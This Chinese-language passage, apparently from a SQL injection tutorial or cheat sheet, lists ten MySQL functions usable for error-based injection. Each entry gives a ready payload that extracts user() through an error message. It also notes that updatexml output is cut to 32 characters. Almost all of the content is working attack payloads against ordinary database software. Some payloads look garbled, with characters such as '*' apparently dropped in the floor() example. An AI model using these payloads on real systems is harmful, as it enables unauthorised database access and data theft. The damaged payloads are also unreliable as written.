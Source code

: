 但是采用 updatexml 报错函数 只能显示 32 长度的内容，如果获取的内容超过 32 字符就要采用字符串截取方法。每次获取 32 个字符串的长度。 除了 updatexml 函数支持报错注入外，mysql 还有其它很多函数支持报错，如下：

 1.floor() 

```
select * from test where id=1 and (select 1 from (select count(),concat(user(),floor(rand(0)2))x from information_schema.tables group by x)a); 
```

2.extractvalue() 

```
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e))); 
```

3.updatexml() 

```
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)); 
```

4.geometrycollection() 

```
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b)); 
```

5.multipoint() 

```
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b)); 
```

6.polygon() 

```
select * from test where id=1 and polygon((select * from(select * from(select user())a)b)); 
```

7.multipolygon() 

```
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b)); 
```

8.linestring() 

```
select * from test where id=1 and linestring((select * from(select * from(select user())a)b)); 
```

9.multilinestring() 

```
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b)); 
```

10.exp() 

```
select * from test where id=1 and exp(~(select * from(select user())a));
```
